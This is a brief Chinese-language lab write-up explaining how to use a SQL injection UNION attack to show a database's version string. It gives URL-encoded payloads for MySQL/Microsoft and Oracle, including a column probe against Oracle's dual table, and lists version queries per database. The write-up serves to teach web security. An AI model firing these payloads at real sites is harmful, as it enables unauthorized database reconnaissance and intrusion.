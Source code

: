 # 题意
![](sql3-3.png)
实施UNION attack在页面上显示数据库版本字符串即可
# 解题思路
UNION attack的步骤与之前的一样，值得注意的是payload:
```
'+UNION+SELECT+@@version,+NULL--%20
```
这里的注释要加上%20代表空格才有用。
oracle的payload：
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
此外，由于oracle的SELECT语句必须指定一个table，所以确定列数和数据类型的时候需要如下payload
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
其中dual是Oracle内置的一个表。
# 知识点
## 查询数据库类型和版本

不同的数据库提供的查询方法都不一样，所以通常需要多次尝试不同的查询语句来获取数据库类型和版本
```
Microsoft, MySQL	SELECT @@version
Oracle	SELECT * FROM v$version
PostgreSQL	SELECT version()
```